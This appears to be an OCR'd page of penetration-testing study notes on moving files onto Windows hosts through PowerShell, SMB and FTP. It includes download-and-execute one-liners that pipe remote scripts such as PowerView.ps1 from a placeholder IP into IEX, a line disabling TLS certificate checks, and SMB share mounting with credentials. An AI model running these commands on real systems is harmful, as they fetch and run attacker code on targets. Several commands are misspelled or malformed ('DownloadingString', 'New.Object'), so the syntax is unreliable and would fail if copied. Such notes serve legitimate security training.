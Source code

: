 1. ***PowerShell DownloadFile Method***

	`(New-Object Net.WebClient).Download('<Target File URL>', '<Output file Name>')`

2. ***PowerShell DownloadString - Fileless Method***

	- `(New-Object Net.WebClient).DownloadingString('URL')`
	
	- `(New-Object Net.WebClient).DownloadingString('URL/Invoke-Expressions') | IEX`


3. ***PowerShell ==Invoke-WebRequest***==

	- `Invoke-WebRequest <URL> -OutFile <File_Name>.ps1`

#### Common Errors with PowerShell:


- Parsed error:
	1. The Internet Explorer first-launch configuration has not been completed, which prevents the download which throws an error 
	
		- `Invoke-WebRequest https://<ip>/<ps1 script> | IEX` 
		
		 ***-UseBasicParsing Bypasses The error***
		 
		- `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`

	1.  PowerShell downloads error related to the SSL/TLS secure channel if the certificate is not trusted.
	
		-  `IEX(New.Object Net.WebClient).Downloading('URL.ps1')`
		
		 `Can be bypassed by using some commands`
		
		- `[System.Net.ServicePointManager]::ServerCertificateValidationCallback ={$true}`

## SMB Downloads

- The Server Message Block protocol (==SMB== protocol) that runs on port ==TCP/445==
- It enables application and users to transfer files to and from remote server.
	-  ***To create SMB Server***
		- impacket-smbserver share -smb2support /tmp/smbshare 
	
	- ***To Copy from the SMB server***
		- `copy \\<IP>\<file_path from the target> <locaol_destination_path>` {for cmd}
		- `copy \\<IP>\<file_path from the target> -Destination <locaol_destination_path> {for powershell}
	
	- ***To copy from authenticated and authorized SMB server***
		- Mount the smb server if error is received from copy `\\<IP>\<file_path from the target> <locaol_destination_path>`
	
			- `net use n: \\<IP>\share /user:<username>:<password>`
		
			- `copy n:\<file_name>`

## FTP Downloads
- Another way to transfer files is using ==FTP== (File Transfer Protocol) which uses port ==TCP/21== and ==TCP/20==.
- The FTP client or PowerShell Net.WebClient to download files from an FTP server. 
- Configure an FTP Server using ***pyftpdlib***  module.
- ***Installing the FTP Server Python3 Module - pyftpdlib***
